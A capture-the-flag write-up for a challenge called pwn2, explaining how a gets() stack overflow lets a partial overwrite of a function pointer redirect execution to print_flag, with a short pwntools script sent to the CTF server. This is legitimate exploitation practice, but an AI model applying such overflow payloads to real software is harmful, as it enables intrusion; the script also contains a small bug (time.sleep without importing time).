



# pwn2.md

nc pwn.tamuctf.com 4322

This problem has another `gets` vulnerability. The user is asked which function they would like to call, and that user input is obtained using `gets`. So I can corrupt the stack. Next, a function `select_function` gets called. What's that do? It looks like I copy the first 31 bytes of the string I enter onto the stack, which can overwrite the last byte of the address stored for the function `one`. Then if the first three bytes of my string are `one` then `one` gets called. I tried just sending a bunch of A's, and looking at how the stack changes:



 goes to

 

That address, `0x5664f6ad` for which I can overwrite the least significant byte, is the address of `two`. And the address of `print_flag` would be `0x5664f6d8`. So I can send a number of A's followed by 0xd8. and now I just need to call `two` somehow. Well, if my input isn't exactly `one\n`, then it looks like `two` gets called. So I'm set.

Here's the solution!
```
# Solve pwn2.py

from pwn import *
from time import sleep

p = remote('pwn.tamuctf.com', 4322)
time.sleep(2)
p.send("A"*27 + "\xd8"*8 + "\n")
p.interactive()
```

